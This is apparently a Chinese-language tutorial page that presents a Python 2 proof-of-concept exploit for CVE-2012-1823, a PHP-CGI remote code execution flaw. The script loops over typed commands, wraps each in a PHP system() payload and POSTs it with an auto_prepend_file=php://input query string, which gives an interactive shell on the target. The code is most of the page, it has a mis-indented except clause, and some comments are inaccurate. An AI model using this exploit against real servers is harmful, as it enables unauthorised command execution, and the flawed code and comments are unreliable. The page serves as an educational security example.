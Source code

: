# 用例 2: CVE-2012-1823

# CVE-2012-1823

* * *

这个 PoC 演示了 CVE-2012-1823 – PHP-CGI 的远程代码执行漏洞的利用,下面这个 PoC 的代码是通过一个简单的循环来获取 PoC 使用者频繁输入的内容,并且修改 HttP 头。Post 提交请求。这个代码的原理也可以用于其他的示例。因为这段代码演示了如何通过 Python 创建自定义的 HTTP 头并且发起请求:

```
#!/usr/bin/python
import sys, urllib2    #导入需要的模块

if len(sys.argv) != 2:    # 检查输入的格式是否正确 "<script> <URL>"
  print "Usage: "+sys.argv[0]+" <URL>"
  sys.exit(0)

URL=sys.argv[1]        # 输出测试的 url 链接 "[+] Attempting CVE-2012-1823 - PHP-CGI RCE"

while True:        # 循环开始时先输出 "~$ " 然后通过"raw_input"获取要执行的命令
  command=raw_input("~$ ")
  Host = URL.split('/')[2]      # 从 URL 解析主机名: 'http://<host>/' 并且赋值给 Host <host>
  headers = {                   # 定义响应头部
    'Host': Host,
    'User-Agent': 'Mozilla',
    'Connection': 'keep-alive'}
  data = "<?php system('"+command+"');die(); ?>"        # PHP 运行的服务器
  req = urllib2.Request(URL+"?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input", data, headers)

  try:                    # 使用 Try/Except 处理响应信息
    response = urllib2.urlopen(req)     # 发起请求
    for line in response.readlines():
      print line.strip()
    except Exception as e: print e 
```

**结果演示**

![php_cgi](img/0x14.png)